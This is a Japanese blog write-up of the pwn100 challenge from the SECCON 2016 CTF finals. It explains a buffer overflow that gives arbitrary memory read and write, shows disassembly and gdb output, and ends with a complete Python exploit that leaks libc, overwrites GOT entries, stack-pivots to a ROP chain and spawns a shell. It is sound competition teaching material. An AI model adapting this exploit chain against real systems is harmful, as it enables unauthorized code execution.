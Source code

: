 ```yaml
---
layout: post
title: SECCON 2016 FINALS writeup
---
```


elfでSECCON決勝に参加していました.
結果は23/24でしんどかったです.

pwn100しか解けなかったけどwriteup.

![](https://tsunpoko.github.io/images/seccon2016finals_enquete.png)

2回の入力がある.
1回目の入力でBOFがあり,

```
 80485ed:	e8 40 00 00 00       	call   8048632 <getaline>
 80485f2:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 80485f5:	89 44 24 0c          	mov    DWORD PTR [esp+0xc],eax
 80485f9:	8d 45 b4             	lea    eax,[ebp-0x4c]
 80485fc:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 8048600:	c7 44 24 04 bb 87 04 	mov    DWORD PTR [esp+0x4],0x80487bb
 8048607:	08 
 8048608:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 804860f:	e8 bc fd ff ff       	call   80483d0 <dprintf@plt>
```

```
gdb-peda$ x/40xw 0xffffd3cc
0xffffd3cc:	0x41414141	0x00000000	0x00000000	0xffffd498
0xffffd3dc:	0xf7e41b74	0xf7fb93cc	0xffffd3fc	0x00000000
0xffffd3ec:	0xf7fb9000	0x00000000	0xf7fb9000	0x00000000
0xffffd3fc:	0x0622705a	0xffffd498	0xf7ff04c0	0xf7fb9000
0xffffd40c:	0xdf866000	0x00000000	0xf7e42016	0xffffd498
0xffffd41c:	0x0804859a	0x08048745	0xffffd44c	0xffffd44
```

```
dprintf("Hi, %s\n%s\n>>", 0xffffd3cc, 0x08048745);
                         [user input]
```

getaline()直後に*(ebp+0x8)をeaxに入れて, それをdprintfの第3引数に指定しているのでここで任意のアドレスが読めます.

この場合*(ebp+0x8)は0xffffd420 -> 0x08048745です.

0xffffd420 - 0xffffd3cc = 84

```
 8048614:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 8048617:	89 04 24             	mov    DWORD PTR [esp],eax
 804861a:	e8 13 00 00 00       	call   8048632 <getaline>
```
*(ebp+0xc)を引数としてgetaline()を呼んでいるので, ここを任意のアドレスにすればそこに書き込みが出来そうです.

攻撃の流れとして, 3ステージに分かれていて

[stage1]
任意のアドレスが読めるのでgotの値を呼んでinformation leakします.
ここで必ず__stack_chk_fail()に引っかかるので, __stack_chk_fail@gotをmainに向けます.

[stage2]
任意のアドレスが読めますが, もうlibcはleakしたので適当で良いです.
書き込み先をbssにして, rop chainを仕込みます.
__stack_chk_fail@gotはまだmainなので再度ret2vuln.

[stage3]
読むアドレスは適当です.
__stack_chk_fail@gotにleave; ret;のrop gadgetを書き込みます.
この際にebpには, bss - 4のアドレスを積んでおきstack pivotでespをrop chainが積まれているbss領域に向けます.
__stack_chk_fail()に引っかかるので, rop発動で終了です.


以下exploit

{% highlight python %}
from No___Op import *

if len(sys.argv) > 1:
    target = '10.100.6.1:28353'
    offset = {
        'rand': 0x0034010,
        '__libc_start_main': 0x19a00,
        'system': 0x40310,
        '/bin/sh': 0x16084c, # str
    }


else:
    target = 'localhost:4444'
    offset = {
        'rand': 0x34010,
        '__libc_start_main': 0x19a00,
        'system': 0x40310,
        '/bin/sh': 0x16084c, # str
    }

c =  Pwning( target )

got_chkfail = 0x804a018
addr_bss = 0x0804a034 + 0x800
addr_main = 0x0804852d
got_rand = 0x804a028
leave_ret = 0x80485c0

########stage1
pay1  = 'a' * 84
pay1 += p32(got_rand)
pay1 += p32(got_chkfail)

pay2 = p32(addr_main)

c.sendall(pay1)
c.sendall(pay2)

info('stage1')

c.read_until('a' * 84)

c.recv(9)

libc_rand = u32(c.recv(4))

libc_base = libc_rand - offset['rand']
libc_system = libc_base + offset['system']
libc_binsh = libc_base + offset['/bin/sh']

succ(hex(libc_base))
succ(hex(libc_system))
succ(hex(libc_binsh))

########stage2

pay1  = 'b' * 84
pay1 += p32(libc_binsh)
pay1 += p32(addr_bss)

pay2  = ''
pay2 += p32(libc_system)
pay2 += 'kasu'
pay2 += p32(libc_binsh)
pay2 += 'c' * (64 - len(pay2))
raw_input()

c.sendall(pay1)
c.sendall(pay2)

info('stage2')


########stage3

pay1  = 'd' * 76
pay1 += p32(addr_bss - 4) #ebp
pay1 += p32(leave_ret) #eip
pay1 += p32(libc_binsh)
pay1 += p32(got_chkfail)

pay2  = p32(leave_ret)
pay2 += 'BBBB'
raw_input()

c.sendall(pay1)
c.sendall(pay2)

info('stage3')

c.shell()
{% endhighlight %}
